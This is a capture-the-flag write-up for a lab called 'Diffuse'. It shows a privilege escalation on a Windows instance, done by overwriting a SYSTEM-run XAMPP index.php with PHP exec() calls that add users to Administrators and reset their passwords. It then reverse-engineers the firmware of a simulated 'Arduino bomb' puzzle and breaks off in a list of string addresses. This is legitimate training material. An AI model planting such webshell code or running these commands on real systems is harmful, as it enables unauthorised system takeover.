# Level 10 - Diffuse



## Information Gathering and Privilege Escalation

Based on the challenge description, I can interact with my own Level 10 instance via the Telegram bot with the handle `@DiffuseInstanceBot`. By sending my platform username followed by the level password, the bot provides the SSH credentials to connect to the challenge instance:



After connecting, I gained access to a Windows environment:



It appears that the RDP port is open:



To make the information gathering process more manageable, I can attempt to forward the RDP port through SSH and then use RDP to access the instance for further analysis:

```
ssh -L 3389:127.0.0.1:3389 diffuser@20.212.177.135 -N
```

Once the port forwarding is set up, I can connect to the Windows environment using Remmina through `127.0.0.1:3389`:



After performing basic enumeration, I discovered the `diffuse` home directory, but the current user does not have sufficient privileges to list its contents.



Additionally, a `xampp` directory was also found, located in `C:\`. However, the current user also lacks the necessary permissions to list its contents, which likely includes web source code.



We can perform a simple curl request to `http://127.0.0.1` to download the index page. From the downloaded page, we can see that PHP is being used.

```html
<form action="submit.php" method="POST"></form>
```

Since PHP is being used, I assumed the index page likely has a `.php` extension, meaning an `index.php` file probably exists.

Despite the restrictions on accessing the `xampp` directory, files within `C:\xampp\htdocs\`, which includes as `index.php`, can be overwritten. I created an `index.php` file to execute the `whoami` command and overwrite the existing `index.php` file.

Here is the code:

```php
<?php

echo exec("whoami");

?>
```



Making a HTTP request to the modified `index.php` returns a response showing `NT AUTHORITY/SYSTEM` as the executing user:



At this point, we can escalate privileges by updating the `index.php` to add `diffuse` and `diffuser` to the `Administrators` group and assign them a simple password.

Here is the code:

```php
<?php

echo exec("whoami");
echo exec("net localgroup Administrators diffuse /add");
echo exec("net localgroup Administrators diffuser /add");
echo exec("net user diffuse pass");
echo exec("net user diffuser pass");

?>
```



## Information Gathering via `diffuse` User

During my time exploring as `diffuse`, I went down several rabbit holes trying to figure out where to find the contents of a few powershell scripts (`setup.ps1`, and `setupv2.ps1`) that were referenced in `Setup.ps1` which can be found within one of his directories. I also found references to `arduino_bomb_for_participants.zip` in the `Recycle Bin`... However, the files in the Recycle Bin seems corrupted...

While exploring as `diffuse`, I went down several rabbit holes trying to locate the contents of a few PowerShell scripts (`setup.ps1` and `setupv2.ps1`) that were referenced in `Setup.ps1`, which I found within one of his directories. Additionally, I found references to `arduino_bomb_for_participants.zip` in the Recycle Bin. However, the files in the `Recycle Bin` appear to be corrupted:



Thinking level 10 was a forensics challenge, I went to install numerous forensic analysis tools in an attempt to carve out the deleted files.

However, there were several interesting files in the `AppData` and `Desktop` directories of the `diffuse` user. After much exploration, the most crucial file for solving this challenge had been in clear sight all along: `firmware.hex`, located in `C:\Users\diffuse\Desktop\project_incendiary`. The content of this file is in Intel HEX format.



Additionally, I discovered a hidden directory at `C:\Users\diffuse\AppData\Roaming\Icendiary\Schematics\` containing a file named `schematic.pdf`. Upon opening the file, it revealed the schematic of an Arduino-based bomb:



Interestingly, at the bottom of the schematic, it shows "page 1 / 2", but only one page was visible in the PDF. This suggests the presence of a hidden layer. Using an online PDF viewer like [DocHub](https://www.dochub.com/en/functionalities/manage-pdf-layers-on-pc), I was able to uncover the hidden layer, which revealed a key: `m59F$6/lHI^wR~C6`.


Not knowing what the key was for, I moved on. While searching for the various components of the bomb on Google, I came across a [link](https://wokwi.com/projects/409614629412546561) to a Wokwi project. In this project, the components were linked up exactly like the schematics. The key from the hidden PDF layer also matched the key in this project. It appears the key resides in the `uart-key-chip` custom component, and will be transmitted to the Arduino firmware.



Here is the custom chip source, which appears to leverage [Wokwi's UART API](https://docs.wokwi.com/chips-api/uart):

```c
// Wokwi Custom UART Chip Example
//
// This chip implements a simple ROT13 letter substitution cipher.
// It receives a string over UART, and returns the same string with
// each alphabetic character replaced with its ROT13 substitution.
//
// For information and examples see:
// https://link.wokwi.com/custom-chips-alpha
//
// SPDX-License-Identifier: MIT
// Copyright (C) 2022 Uri Shaked / wokwi.com

#include "wokwi-api.h"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct {
  uart_dev_t uart0;
} chip_state_t;

static void on_uart_rx_data(void *user_data, uint8_t byte);
static void on_uart_write_done(void *user_data);

void chip_init(void) {
  chip_state_t *chip = malloc(sizeof(chip_state_t));

  const uart_config_t uart_config = {
    .tx = pin_init("TX", INPUT_PULLUP),
    .rx = pin_init("RX", INPUT),
    .baud_rate = 9600,
    .rx_data = on_uart_rx_data,
    .write_done = on_uart_write_done,
    .user_data = chip,
  };
  chip->uart0 = uart_init(&uart_config);

  printf("UART Chip initialized!\n");
}

char key[17] = "m59F$6/lHI^wR~C6";
size_t idx = 0;

 static void on_uart_rx_data(void *user_data, uint8_t byte) {
  chip_state_t *chip = (chip_state_t*)user_data;
  char out = key[idx++];
  printf("Incoming UART data: %c\n", byte);
  printf("Outgoing UART data: %c\n", out);
  uart_write(chip->uart0, (uint8_t *)&out, sizeof(out));
}

static void on_uart_write_done(void *user_data) {
  chip_state_t *chip = (chip_state_t*)user_data;
  printf("UART done\n");
}
```

By uploading the firmware (using the shortcut key F1 -> `Upload Firmware and Start Simulation...`) to the Wokwi project, the bomb starts. From the Wokwi logs, we see that the chip gets initialized and data is transmitted in (`F8g3a_9V7G2$d#0h`) and out (`m59F$6/lHI^wR~C6`) of the chip.



From the schematics, we can infer that the Intel HEX file found earlier likely contains the firmware for the Arduino used in this project. A quick search also revealed that the `Arduino UNO Rev 2` uses the `ATmega4809` microcontroller, which is part of the `AVR8` family. Unfortunately, both Ghidra and IDA do not have configurations to handle this specific processor variant, which presents a significant challenge in analyzing the firmware directly using these tools.

## Firmware Analysis

To ensure the file can be properly parsed by disassemblers, the Intel HEX file was converted into a binary format:

```sh
avr-objcopy -I ihex firmware.hex -O binary firmware.bin
```

Ghidra doesn't seem to have the processor specification configuration to properly parse the firmware. I tried reading the processor manual and writing my own specs for the `ATmega4809` (used by Arduino UNO Rev 2), but it did not work out. Instead, I can only make do with the existing configurations and interpret the results cautiously.

The article [https://www.jonaslieb.de/blog/arduino-ghidra-intro/](https://www.jonaslieb.de/blog/arduino-ghidra-intro/) provides useful guidance on analyzing the entry point of the firmware (`Reset`) and more. From this article, it helps with identifying where the `main()` function is located.

Here is the `Reset` logic:

```c
void Reset(void)
{
  undefined1 *puVar1;

  R1 = 0;
  SREG = 0;
  R17 = '\x02';
  X = &DAT_mem_0100;
  Z = &DAT_codebyte_30be;
  while (puVar1 = X, (byte)X != 0x80 || X._1_1_ != (char)(R17 + ((byte)X < 0x80))) {
    R0 = *Z;
    Z = Z + 1;
    X = X + 1;
    *puVar1 = R0;
  }
  R18 = '\x05';
  X = &DAT_mem_0280;
  while (puVar1 = X, (byte)X != 0x93 || X._1_1_ != (char)(R18 + ((byte)X < 0x93))) {
    X = X + 1;
    *puVar1 = R1;
  }
  R17 = 1;
  Y = (undefined1 *)0x162;
  while ((byte)Y != 0x61 || Y._1_1_ != (char)(((byte)Y < 0x61) + '\x01')) {
    Y = Y + -1;
    Z = Y;
    DAT_mem_08fe = 0x184;
    FUN_code_1637();
  }
  DAT_mem_08fe = 0x189;
  FUN_code_0c45();
  FUN_code_1852();
  return;
}
```

`FUN_code_0c45()` likely corresponds to `main()`, and `FUN_code_1852()` corresponds to GCC's `exit()`. Therefore, we can start renaming these functions accordingly.

The following code block should maps to `__do_copy_data()` which is the function responsible for loading a `.data` section from ROM:

```c
  ...
  X = &DAT_mem_0100;
  Z = &DAT_codebyte_30be;
  while (puVar1 = X, (byte)X != 0x80 || X._1_1_ != (char)(R17 + ((byte)X < 0x80))) {
    R0 = *Z;
    Z = Z + 1;
    X = X + 1;
    *puVar1 = R0;
  }
  ...
```

When analyzing `main()`, it felt very overwhelming and chaotic. So, I shifted my focus to looking for defined strings to create some structure for my analysis. I started by searching for defined strings in the firmware:



However, none of the strings seemed to be referenced elsewhere... or are they?

The writeup by `larsh` helps with explaining how data is loaded and how we can find string references: https://ctf.harrisongreen.me/2021/midnightsun/twi-light/. The writeup also references another writeup which included instructions on how to set up simavr for dynamic analysis: [https://ctf.harrisongreen.me/2020/midnightsunctf/avr/](https://ctf.harrisongreen.me/2020/midnightsunctf/avr/). They very nicely included the `Dockerfile` to setup the debugger:

```dockerfile
FROM ubuntu:18.04

ENV DEBIAN_FRONTEND=noninteractive

RUN apt-get update && apt-get install -y \
    python-dev \
    picocom git gdb gcc-avr binutils-avr gdb-avr avr-libc avrdude \
    make gcc freeglut3-dev libelf-dev libncurses5-dev libncursesw5-dev \
    simavr

WORKDIR /src

RUN git clone https://github.com/buserror/simavr

ENV TERM xterm-256color

# the build fails midway through but it's ok
RUN cd simavr && (make || echo 0)

ENV SIMAVR_UART_XTERM=1
```

After reading the mentioned writeups, I learned how to calculate the RAM address of a defined string. We need to use the formula `<address in ROM> + 0x100 - 0x30BE`. It is also important to note that all the addresses in Ghidra seem to be halved, so remember to multiply them by 2 to get the actual ROM address.

Also some strings were not shown in Ghidra's `Defined Strings` window. They are `F8g3a_9V7G2$d#0h` and `39AB41D072C`.





We can note down some details of each defined string as shown below:

```
code:18cb.1: "Wrong decryption"
- ROM address: 0x3196
- RAM address: 0x1D9
- Resides at code:07fe (inside FUN_code_07f8)

code:18d4: "or no key chip!"
- ROM address: 0x31A8
- RAM address: 0x1EA
- Resides at code:0808 (inside FUN_code_07f8)

code:18dc: "Less time now!"
- ROM address: 0x31B8
- RAM address: 0x1FA

code:18e3.1: "F8g3a_9V7G2$d#0h"
- ROM address: 0x31C6
- RAM address: 0x209
- Resides at code:0d3e

code:18ec: "Read key chip:"
- ROM address: 0x31D8
- RAM address: 0x21A
- Resides at code:0de5

code:18f3.1: GoodLuckDefusing"
- ROM address: 0x31E6
- RAM address: 0x229
- Resides at code:0dff

code:18fc: "THIS BOMB"
- ROM address: 0x31F8
- RAM address: 0x23A

code:1901: "Enter Code:"
- ROM address: 0x3202
- RAM address: 0x245
- Resides at code:0e44 and code:1439

code:1907: "BOOM!"
- ROM address: 0x320E
- RAM address: 0x250
- Resides at code:0ebc

code:190a: "Game Over :)"
- ROM address: 0x3214
- RAM address: 0x256
- at code:0ce6

code:1910.1: "39AB41D072C"
- ROM address: 0x3220
- RAM address: 0x263

